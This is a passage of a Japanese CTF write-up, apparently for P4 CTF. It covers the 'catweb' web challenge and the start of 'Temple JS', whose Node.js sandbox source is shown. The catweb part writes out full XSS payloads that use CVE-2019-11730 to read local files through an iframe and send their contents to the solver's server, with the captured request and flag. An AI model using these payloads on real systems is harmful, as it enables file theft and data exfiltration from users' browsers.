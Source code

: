 まさかと思い `javascript:location="(URL)"` を投げてみたところ、こちらでもちゃんと指定した URL にアクセスが来ました。スキームのチェックは全く行われていないようです。

ここで悩んでいたところ、aventador さんが [CVE-2019-11730](https://quitten.github.io/Firefox/) という脆弱性を紹介してくれました。これはそのページが `file` スキームであればローカルにあるファイルを読み出せるという脆弱性のようです。

`/cats` へのリクエスト部分では `$.getJSON('http://catweb.zajebistyc.tf/cats?kind='+kind)` と URL 部分が丁寧にも相対パスではないため、`file` スキームであっても相変わらず XSS が可能です。`file:///app/templates/index.html?(ペイロード)` にアクセスさせれば CVE-2019-11730 を利用してローカルにあるファイルの内容を読み出させることができそうです。

[alidnf/CVE-2019-11730](https://github.com/alidnf/CVE-2019-11730) を参考に、試しに `file:///app/templates/index.html?",%20"status":%20"ok",%20"content":%20["abc\u0022%20onerror\u003d\u0022var%20i%3Ddocument.createElement('iframe')%3Bi.src%3D'.%2F'%3Bi.onload%3Dfunction()%7B(new%20Image).src%3D'http%3A%2F%2F(省略)%3F'%2Bi.contentDocument.body.innerText%7D%3Bdocument.body.append(i)"],%20"a":%20"` を投げてみると以下のようなリクエストが来ました。

```
GET /r/1eysizb1?Indeks file:///app/templates/Do katalogu wyższego poziomuNazwaRozmiarOstatnia modyfikacjaflag.txt1 KB13.03.202017:41:14 UTCindex.html2 KB13.03.202022:21:34 UTCreport.html1 KB13.03.202017:41:14 UTC=
```

おっ、`flag.txt` があるようです。`file:///app/templates/index.html?",%20"status":%20"ok",%20"content":%20["abc\u0022%20onerror\u003d\u0022var%20i%3Ddocument.createElement('iframe')%3Bi.src%3D'.%2Fflag.txt'%3Bi.onload%3Dfunction()%7B(new%20Image).src%3D'http%3A%2F%2F(省略)%3F'%2Bi.contentDocument.body.innerText%7D%3Bdocument.body.append(i)"],%20"a":%20"` でフラグが得られました。

```
p4{can_i_haz_a_piece_of_flag_pliz?}
```

## [Web 162] Temple JS (23 solves)
> ECMAScript 6 brought in a new paradigm to JavaScript: template programming!!111 ... kinda
> 
> Do you want to try? :)
> 
> (URL)

この問題は zer0pts が first solve でした。

与えられた URL にアクセスすると、`Type 'source' to reveal the truth...` というメッセージとともに REPL が表示されました。とりあえず `source` と打ってみるとサーバのソースが表示されました。

```javascript
const express = require("express")
const fs = require("fs")
const vm = require("vm")
const watchdog = require("./watchdog");

global.flag = fs.readFileSync("flag").toString()
const source = fs.readFileSync(__filename).toString()
const help = "There is no help on the way."

const app = express()
const port = 3000

app.use(express.json())
app.use('/', express.static('public'))

app.post('/repl', (req, res) => {
    let sandbox = vm.createContext({par: (v => `(${v})`), source, help})
    let validInput = /^[a-zA-Z0-9 ${}`]+$/g
    
    let command = req.body['cmd']
    
    console.log(`${req.ip}> ${command}`)

    let response;
```